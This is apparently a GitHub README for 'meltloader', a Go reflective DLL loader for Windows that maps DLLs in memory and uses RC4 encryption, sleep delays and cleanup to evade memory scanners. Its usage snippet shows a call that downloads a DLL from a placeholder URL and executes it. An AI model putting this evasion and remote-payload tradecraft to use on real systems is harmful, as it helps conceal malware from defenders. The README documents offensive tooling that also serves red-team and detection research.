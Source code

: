 # meltloader

a reflective dll loader for windows written in go that performs pe loading entirely in memory with automatic memory management and encryption features.

## demo
![melt](https://github.com/user-attachments/assets/819639da-32ca-4393-8945-0e4c0b8145d6)

## overview

meltload implements reflective dll loading using windows nt api calls to allocate, write, and execute pe files without touching disk. the loader handles pe parsing, relocation processing, import resolution, and memory protection changes while providing tracking and cleanup capabilities. this should allow you to chain an arbitrary amount of DLLs that perform various operations in a modular and secure manner :3

the loader uses windows' provided SystemFunction032 rc4 encryption for evasion purposes. downloaded dlls are always encrypted in memory with an optional sleep period before decryption and execution, and after execution the mapped dll image gets encrypted in place using a randomly generated key. this makes the loaded dll unreadable to memory analysis tools while maintaining proper cleanup functionality.

## https requirement

LoadDLLFromURL requires https connections as winhttp in all my implementations failed with non https and i cba to look at microsoft docs any longer for function signature and type converting windows stuff to go.

## go dll compatibility

this loader does not work with go-compiled dlls due to abi mismatch issues. the wincall library used for syscalls was designed to operate within an os thread context with an uninitialized go runtime. go dlls expect a fully initialized go runtime environment which conflicts with this approach. use standard c/c++ compiled dlls instead (better anyways, more reusable)

## api usage

```go
// load dll from file
mapping, err := pe.LoadDLLFromFile("path/to/dll.dll", "ExportedFunction")

// load dll from url with optional sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction", 5)

// load dll from url without sleep before encrypt/decrypt finishes
mapping, err := pe.LoadDLLFromURL("https://example.com/dll.dll", "ExportedFunction")

// check currently mapped dlls
baseAddrs, sizes, count := pe.GetMap()

// cleanup/unmap dll from memory
err = pe.Melt(mapping)
```

## function identifier interface

the functionIdentifier parameter accepts multiple types:

- string: function name for named exports ("MessageBoxA")
- int: ordinal number for ordinal exports 
- string containing number: automatically parsed as ordinal ("123")

if no specific function is found, the loader will execute the dll's entry point with DLL_PROCESS_ATTACH.

## technical implementation

the loader performs standard reflective dll loading steps:

pe validation checks dos and nt headers for proper signatures and offsets. memory allocation uses NtAllocateVirtualMemory attempting preferred base address first, falling back to system-chosen addresses. section mapping copies pe headers and each section to their virtual addresses using NtWriteVirtualMemory.

relocation processing handles base address changes by parsing the relocation table and updating all absolute addresses. only IMAGE_REL_BASED_DIR64 relocations are processed for 64-bit compatibility. import resolution walks the import table, loads required libraries with LoadLibraryW, and resolves function addresses with GetProcAddress.

memory protection changes from PAGE_READWRITE to PAGE_EXECUTE_READ using NtProtectVirtualMemory after dll loading completes. export resolution searches the export table by name or ordinal to find the target function.

the encryption system generates a random 32-byte rc4 key during loading. a deferred function encrypts the mapped dll memory in place after execution completes. the encryption key gets securely wiped from memory after use.

memory tracking maintains a global registry of loaded dlls protected by read-write mutex. each mapping stores base address and size information. the Melt function uses VirtualFree with MEM_RELEASE flag and automatically removes entries from the tracking registry. this is opsec iffy, but DLL 0: Base=0x19065C10000, Size=32768 bytes is all that shows up to memory scanners, can also optionally be encrypted when unused if you want to adapt this further

## evasion features

the loader includes several evasion mechanisms. downloaded dlls are always encrypted in memory with an optional time period before decryption and execution. mapped dlls get encrypted in place after execution using rc4 with random keys. memory operations use nt api calls instead of higher level win32 apis. all allocations and operations happen entirely in memory without disk artifacts. the tracking system allows complete cleanup of loaded dlls, removing them from our process memory.
